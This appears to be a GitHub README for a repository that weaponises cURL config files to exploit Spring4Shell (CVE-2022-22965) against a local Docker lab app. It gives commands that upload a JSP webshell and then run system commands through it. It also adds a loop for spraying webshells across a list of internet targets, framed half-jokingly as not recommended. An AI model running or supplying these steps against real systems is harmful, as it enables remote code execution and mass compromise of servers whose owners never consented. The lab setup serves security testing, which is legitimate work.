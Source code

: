 # Spring4Shell-cURL
cURL configs for exploiting Spring4Shell 


## Weaponzing cURL to Exploit Spring4Shell (CVE-2022-22965) 
I hadn't seen this method posted anywhere, just wanted to document. 99% of this is not my work. I just combined unique aspects into this repo. 


### Quick Setup

0. Clone the repo. You'll need Docker and cURL. If somehow you don't have cURL, download from: [https://everything.curl.dev/get](https://everything.curl.dev/get)
1. Deploy Docker container:  
`docker image build -t retro/stupidrumor ./ && docker container run -it --publish 8080:8080 retro/stupidrumor`.
3. Issue the cURL command:  
`curl --config request.txt http://localhost:8080/stupidRumor_war/index`. This cURL command first reads from the `requests.txt` file. Inside the `request.txt` are things like the specific headers we need to exploit the vulnerable application. Noteably, the last line is `data-binary = "@body.txt"`, which contains our POST body. 
   
   **Note:** I've configured cURL to also send our requests through a transparent application proxy (Burp) in this case on `port 8081`, not `8080` as that's already taken by the Docker app. This is mostly for troubleshooting, but good to have in your Repeater nonetheless :)
   
3. Once the cURL command is sent, the webshell (`tomcatwar.jsp`) will be uploaded to the webroot (`stupidRumor_war/`), which means you can access it here in a browser if you want: `stupidRumor_war/tomcatwar.jsp?`
4. But we're using cURL, so now issue the second cURL request:  
`curl 'http://localhost:8080/stupidRumor_war/tomcatwar.jsp?pwd=j&cmd=whoami' --output -`. 

Bonus: I guess you could do something like the following to blindly spray webshells across the internet. Not recommended:  

`for i in $(cat targets.txt); do curl --config request.txt $i:$/yougottafixurethisout; done`. IYKYK. 


   
   
   
   
   
   
   
   
   
   
   
   
   
   ----------------
   Refs:  
[https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh](https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh)
